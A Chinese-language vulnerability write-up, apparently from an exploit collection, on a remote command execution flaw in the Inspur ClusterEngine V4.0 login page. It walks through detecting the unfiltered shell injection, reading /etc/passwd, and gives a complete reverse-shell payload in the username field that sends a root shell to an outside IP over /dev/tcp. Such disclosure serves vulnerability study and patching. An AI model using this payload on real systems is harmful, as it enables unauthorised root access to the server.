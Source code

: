 # 浪潮ClusterEngineV4.0 远程命令执行漏洞

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## 漏洞复现

登录页面如下

![](image/lc-1.png)

由于登录页面没有发现验证码，进行账号爆破

当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。

![](image/lc-2.png)

通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有

一个 ' ，系统将抛出异常。

![](image/lc-3.png)

![](image/lc-4.png)

进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常

![](image/lc-5.png)

定尝试发送 ' ' 来查看响应包。

![](image/lc-6.png)

我注意到 grep 命令错误，服务端的代码可能是这样

```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```

尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测

![](image/lc-7.png)

![](image/lc-8.png)

尝试读取  **/etc/passswd**

![](image/lc-9.png)

尝试列目录

![](image/lc-10.png)

确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload

![](image/lc-11.png)

![](image/lc-12.png)

反弹 shell

```shell
op=login&username=1 2\',\'1\'\); `bash%20- i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell

![](image/lc-13.png)

## 参考文章

https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul